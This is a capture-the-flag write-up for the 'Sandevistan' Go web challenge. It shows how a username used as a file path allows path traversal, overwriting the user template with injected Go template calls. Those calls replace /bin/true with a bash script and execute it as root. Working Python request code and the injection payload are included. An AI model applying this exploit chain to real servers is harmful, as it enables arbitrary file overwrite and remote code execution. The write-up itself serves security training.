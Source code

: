 # Sandevistan \[212 Points] (32 Solves)
```
I've been watching Cyberpunk 2077: Edgerunners lately...
```
Attached is [sandevistan.zip](./sandevistan.zip). Also we can start a remote of the chal.

---

## Writeup

Looking at the source code, we notice some shady file creation in ErrorFactory functions:
```go
func ErrorFactory(ctx context.Context, v string, f string) *models.UserError {
    filename := "errorlog/" + f
    UErr := &models.UserError{
        v,
        f,
        ctx,
    }

    file, _ := os.OpenFile(filename, os.O_RDWR|os.O_CREATE, 0644)
    defer file.Close()

    file.WriteString(v)
    return UErr
}
```

If we could control `f`, we could set it to for example `../../../../etc/passwd`
and thus overwrite a file we shouldn't be able to access!

Can we though control `f`? Turns out, we can!

Inside of `AlphaNumCheck`,
```go
func AlphaNumCheck(ctx context.Context, t string) *models.UserError {
    if !regexp.MustCompile(`^[a-zA-Z0-9]*$`).MatchString(t) {
        v := fmt.Sprintf("ERROR! Invalid Value: %s\n", t)
        fmt.Printf("[*] AlphaNumCheck: %s", v)
        username := ctx.Value("username")
        regexErr := ErrorFactory(ctx, v, username.(string)) // <----
        return regexErr
    }
    return nil
}
```
the `f` is passed as our username, and the content, is
```go
"ERROR! Invalid Value: %s\n"
```
where `%s` is the string being checked to be alphanumeric:

Investigating further, we find out that `cyberware.cwHandlePost`, calls `checkForm`
with our request. *Then*, `checkForm` calls `AlphaNumCheck`, on the cyberware name we sent. \
So, **setting our username to a path traversal** string, and **setting a non-alphanumeric cyberware name**,
we can overwrite files!

Let's test

```py
def cyberware_post(username, cyberware_name):
    return requests.post(f"{URL}/cyberware", data={"username": username, "name": cyberware_name})

cyberware_post(username="../CANARY.findme", cyberware_name="foobar.")
```
With the server running locally, we indeed see a `CANARY.findme` created, **outside of
the errorlog directory**, with `ERROR! Invalid Value: foobar.`!

*What now?*

The source code contains some suspicious functions, which are never called, like
```go
func (u *User) UserHealthcheck() ([]byte, error) {
    cmd := exec.Command("/bin/true")    
    output, err := cmd.CombinedOutput()
    if err != nil {
        return nil, errors.New("error in healthcheck")
        panic(err)
    }
    return output, nil
}
```

How could we call them?

Luckily, because these functions are associated with the `User` struct, they are
accessible from the `user.html` template. Also, by the nature of HTML, even an
unstructured template will be parsed and executed. \
So for example something like
```html
ERROR! Invalid Value: foobar.
{{ .UserHealthcheck }}
</html>
```
still would be valid and would execute the `UserHealthcheck` method.

### Building the payload

Because the server is running as root, we can overwrite any file, including `/bin/true`. \
What if we could write to it a bash script?[^1] There's a function called, `SerializeErrors`,
which, without the error checking, looks like
```go
func (u *User) SerializeErrors(data string, index int, offset int64) error {
    fname := u.Errors[index]
    f, err := os.OpenFile(fname.Filename, os.O_RDWR, 0)
    _, ferr := f.WriteAt([]byte(data), offset)
}
```

Basically it loads an error from our index, and writes into a file *based on the error*

Also, there's the `NewError` function, which allows us to create **any error** we like!

So the 3 steps are:
1. Create an error with filename=`"/bin/true"`
2. Serialize that error with data being our bash script
3. Call UserHealthcheck

We can achieve it using
```go
{{ .NewError "foo" "/bin/true" }}

{{ .SerializeErrors "BASH CODE HERE" 0 0  }}

{{ .UserHealthcheck }}
```

Then, finally, we trigger the template by visiting the `/user` endpoint for any *existing* user.

Let's combine everything together and run it
```py
bash = """#!/bin/bash
cat /flag > /app/tmpl/index.html

""".replace('\n', '\\n')

cyberware_post("../tmpl/user.html", '{{ .NewError "foo" "/bin/true" }} {{ .SerializeErrors "' + bash + '" 0 0  }} {{ .UserHealthcheck }}') # Inject template syntax into the user template

user_post("den") # Create the user
user_get("den") # Trigger the template
```

Now we can visit `/`, which loads `index.html` and thus displays the flag.

Success!

**Flag:** `bwctf{YoU_kNoW_yOu_d1dnt_l0s3_Ur_53Lf-coNtR0L._LEt'5_start_at_the_r4inB0w}`

*You can find the full solve script at [solve.py](./solve.py)*

[^1]: We couldn't do it before, because of the `ERROR! Invalid Value: ` prefix. Thus we couldn't write a shebang (`#!/bin/bash`) for linux to know how to run it.
